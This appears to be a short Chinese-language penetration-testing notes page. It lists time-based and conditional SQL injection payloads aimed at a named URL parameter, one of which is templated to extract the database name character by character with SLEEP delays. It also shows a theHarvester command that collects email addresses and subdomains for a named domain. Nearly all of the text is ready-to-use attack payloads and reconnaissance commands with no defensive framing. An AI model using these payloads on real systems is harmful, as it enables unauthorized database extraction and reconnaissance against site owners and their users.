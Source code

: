 ## sql注入
### 注入点    Acts/SetCount?id=63200
```sql
' AND (SELECT * FROM (SELECT(SLEEP(5)))RING) and 'RING'='RING
```

```sql
(SELECT * FROM (SELECT(SLEEP((ASCII(MID(LOWER(DATABASE())," + str(i) + ",1))=" + str(ord(_str)) + ")*5)))RING)
```

```sql
' and if((1=2),1,(select 1 union select 2))#
```

## 信息收集
### The harvester   搜索引擎查找邮箱及子域名
```shell
./theHarvester.py -d wooyun.org -l 500 -b baidu -v 
```
> 语法：theharvester -d 域名|公司名 -b 搜索来源（google，bing，pgp，linkedin等） 
